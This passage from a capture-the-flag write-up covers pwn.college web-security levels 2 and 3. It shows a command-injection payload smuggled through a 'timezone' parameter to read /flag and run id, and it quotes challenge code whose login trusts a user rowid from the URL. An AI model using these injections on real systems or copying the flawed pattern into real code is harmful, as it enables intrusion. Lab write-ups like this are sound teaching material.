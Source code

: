 > The Request which we are using to get the flag...

```py
url = "http://challenge.localhost:80?timezone=who;cat /flag;"
data = {"Cookie": "c61b7eb3605bc2a2fdbbcac920bdd414"}
response = re.post(url , data=data )
print(response.text)
```
> Response 
```sh
hacker@web-security-level-2:~$ python3 web-security/file.py 
uid=0(root) gid=1000(hacker) groups=1000(hacker)
Sat Jan 29 07:53:33 UTC 2025

hacker@web-security-level-2:~$ python3 web-security/file.py 
pwn.college{falg_here}
Sat Jan 29 07:54:22 UTC 2025
```

```sh
# we can also execute the command with curl 

hacker@web-security-level-2:~$ curl --path-as-is http://challenge.localhost:80?timezone=whoami;id; 
Sat Jan 29 08:17:17 whoami 2025
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)

```


## Web-security level 3

* This challenge is about exploiting the authentication vulnerability.
* Analysing the file `/challenge/run`, here in `level3`there are two if conditions.


> Source Code :
```py
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
* at the end of first if condition we can see it return to requestd path with parameter `user` and `rowid` which may be user id in this case.
